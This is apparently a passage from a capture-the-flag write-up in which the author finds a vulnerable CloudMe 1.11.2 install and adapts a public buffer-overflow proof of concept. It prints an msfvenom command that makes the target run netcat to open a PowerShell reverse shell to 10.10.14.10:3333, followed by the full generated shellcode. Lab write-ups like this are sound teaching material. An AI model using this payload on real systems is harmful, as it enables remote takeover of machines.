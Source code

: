 I don't see anything interesting here so we can move on and try to enumerate Shaun's personal folders. 

There is a file inside the `Documents` folder but it's just a command to run Xampp.

{% highlight sh %}
type .\documents\tasks.bat
{% endhighlight %}

{% highlight text %}
START C:/xampp/xampp_start.exe
{% endhighlight %}

In the `Downloads` directory, I found a file called <cite><strong>CloudMe_1112.exe</strong></cite>. A quick google search to realize that this program is vulnerable to a buffer overflow [attack](https://www.exploit-db.com/exploits/48389). 

To exploit this, we need to understand what it does exactly. So, if we look at the POC, we can see that it takes a payload that has been generated using msfvenom. 
Then it connects to the target on port 8888 and injects the payload. 

All we need to do is to modify the payload because right now, it's just running the calc.exe command, which is not what we want !

So I ran msfvenom on my kali box and modified the script with my new payload. Again, I used netcat because I already uploaded it for the foothold but you can use the command that you want to get a shell. 

{% highlight text %}
msfvenom -a x86 -p windows/exec CMD='c:\tmp\nc.exe 10.10.14.10 3333 -e powershell' -b '\x00\x0A\x0D' -f python
{% endhighlight %}

{% highlight text %}
buf =  b""
buf += b"\xdb\xdc\xb8\x15\xae\xd4\x38\xd9\x74\x24\xf4\x5e\x31"
buf += b"\xc9\xb1\x3a\x31\x46\x18\x83\xc6\x04\x03\x46\x01\x4c"
buf += b"\x21\xc4\xc1\x12\xca\x35\x11\x73\x42\xd0\x20\xb3\x30"
buf += b"\x90\x12\x03\x32\xf4\x9e\xe8\x16\xed\x15\x9c\xbe\x02"
buf += b"\x9e\x2b\x99\x2d\x1f\x07\xd9\x2c\xa3\x5a\x0e\x8f\x9a"
buf += b"\x94\x43\xce\xdb\xc9\xae\x82\xb4\x86\x1d\x33\xb1\xd3"
buf += b"\x9d\xb8\x89\xf2\xa5\x5d\x59\xf4\x84\xf3\xd2\xaf\x06"
buf += b"\xf5\x37\xc4\x0e\xed\x54\xe1\xd9\x86\xae\x9d\xdb\x4e"
buf += b"\xff\x5e\x77\xaf\x30\xad\x89\xf7\xf6\x4e\xfc\x01\x05"
buf += b"\xf2\x07\xd6\x74\x28\x8d\xcd\xde\xbb\x35\x2a\xdf\x68"
buf += b"\xa3\xb9\xd3\xc5\xa7\xe6\xf7\xd8\x64\x9d\x03\x50\x8b"
buf += b"\x72\x82\x22\xa8\x56\xcf\xf1\xd1\xcf\xb5\x54\xed\x10"
buf += b"\x16\x08\x4b\x5a\xba\x5d\xe6\x01\xd0\xa0\x74\x3c\x96"
buf += b"\xa3\x86\x3f\x86\xcb\xb7\xb4\x49\x8b\x47\x1f\x2e\x63"
buf += b"\x02\x02\x06\xec\xcb\xd6\x1b\x71\xec\x0c\x5f\x8c\x6f"
buf += b"\xa5\x1f\x6b\x6f\xcc\x1a\x37\x37\x3c\x56\x28\xd2\x42"
buf += b"\xc5\x49\xf7\x20\xd3\xe9\x8c\xcb\x53\x4e\x03\x77\xbd"
buf += b"\x0b\xa3\x12\xe1\xe2\x63\xf3\xd0\x34\xaa\x3a\x26\x1b"
buf += b"\x83\x0c\x66\x50\xd0\x5f\x55\xb6\x3b\xc5\xb9\xc6\x2c"
buf += b"\x72\xdc\x54\xc0\x14\x7b\xf5\x4a\xe5"
{% endhighlight %}

